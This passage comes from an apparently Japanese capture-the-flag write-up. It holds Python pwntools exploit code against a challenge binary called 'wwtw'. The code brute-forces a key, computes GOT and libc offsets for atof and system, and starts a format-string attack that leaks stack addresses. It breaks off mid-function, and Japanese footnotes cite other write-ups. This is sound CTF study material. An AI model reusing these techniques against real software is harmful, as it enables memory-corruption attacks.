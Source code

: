 ``` python
        p.sendline(acts[0][0])
        if acts[0][1] == 0: # reaches the goal
            s = p.recvn(6)
            if s == 'TARDIS':
                p.recvuntil(': ')
                break
            else:
                p.recvline()

def crack_tardis_key():
    return 'UeSlhCAGEp' # by gdb or bruteforce
    key = ''
    while True:
        for c in '\x04' + string.ascii_letters:
            while True:
                p = process('./wwtw')
                try:
                    recv_header(p)
                    solve_game(p)
                except:
                    p.close()
                    continue
                else:
                    break
            p.send(key + c)
            can_recv = p.can_recv(timeout=0.1)
            p.close()
            if not can_recv:
                if c == '\x04':
                    return key
                key += c
                print key
                break

tardis_key = crack_tardis_key()

def activate_tardis(p):
    p.recvuntil('Selection: ')
    p.send('1AAAAAAA\x00')
    p.recvuntil('Selection: ')
    time.sleep(2.1)
    p.send(p32(0x55592B6C + 1))
    p.send('1AAAAAAA\x03')
    p.recvuntil('Selection: ')
    p.sendline('3')

atof_got = 0x5080 # $ objdump -R wwtw | grep '\<atof\>'
# addresses of local libc
atof_offset   = 0x2d310 # $ readelf -s /usr/lib32/libc.so.6 | grep '\<atof\>'
system_offset = 0x3aeb0 # $ readelf -s /usr/lib32/libc.so.6 | grep '\<system\>'

def format_string_attack(p):
    another_tardis = '51.49213699999999960,-0.1928779999999999939' # by gdb

    p.recvuntil('Coordinates: ')
    p.sendline(another_tardis + ' %274$p %275$p')
    p.recvline()
    resp = p.recvline().split()
    _   = int(resp[2], 16) # saved ebp of     sub <+0x1027>
    ret = int(resp[3], 16) # return addr from sub <+0x1027>
    bin_base = ret - 0x1491

    def fill_spaces(payload):
```

[^1]: <http://charo-it.hatenablog.jp/entry/2015/05/19/114004>
[^2]: <http://stackoverflow.com/questions/16302575/distinguish-shared-objects-from-position-independent-executables>
[^3]: <https://ezoeryou.github.io/blog/article/2015-04-16-PIC.html>
[^4]: <http://7shi.hateblo.jp/entry/2013/05/25/103050>
[^5]: 1byte漏らしてるのはすぐに気付けたけど、これがsocketを上書きしてることは気付けませんでした。writeupを見ました。
[^6]: libcはuploadされてないだけで本番は与えられていたのかな、と思っていたけどそうではなかったらしい。